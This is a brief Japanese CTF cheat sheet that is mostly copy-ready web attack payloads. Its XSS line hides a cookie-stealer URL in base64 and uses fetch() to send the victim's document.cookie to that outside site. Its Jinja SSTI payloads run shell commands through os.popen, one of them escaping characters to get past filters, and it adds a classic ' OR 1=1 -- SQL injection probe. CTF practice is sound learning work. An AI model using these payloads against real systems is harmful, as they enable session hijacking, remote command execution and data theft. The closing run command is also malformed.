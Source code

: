 # CTFチートシート
## 目次
{:toc}

---
## Web問
### XSS
```html:XSS
&lt;img src=x onerror=fetch(atob('aHR0cHM6Ly9tYXNhLWNvb2tpZXMtc3RlYWxlci5wYWdlcy5kZXYv')+?cookie='+document.cookie)&gt;
```
この場合は、僕のサイトにクッキーを送信する。
### SSTI
問題にどこにファイルがあるかわからない時には
```python:SSTI_ls
{{request.application.__globals__.__builtins__.__import__('os').popen('ls').read()}}
```
SSTIができる時には、
```python:SSTI_payload1
{{request.application.__globals__.__builtins__.__import__('os').popen('cat flags').read()}}
```

使えない文字がある場合
```python:SSTI_payload2
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('cat flag')|attr('read')()}}
```
この場合はFlagの名前が、**flag**だとする
### SQLインジェクション
まず最初に、**'** や、**"** を試す
エラーを吐いたら、次に、
```mysql:sqlinjection
' OR 1=1 --
```
を試してみる

---
## Crypto問
**https://gchq.github.io/CyberChef/** がいい

---
## おまけ
n回後にmを入力するのを繰り返しするためのコード
```python:n_input
for i in range(100):
  for j in range(200):
    print(1)
  print(2)
```
実行方法:```python:python
python n_input || 入力を自動化したいもの
```

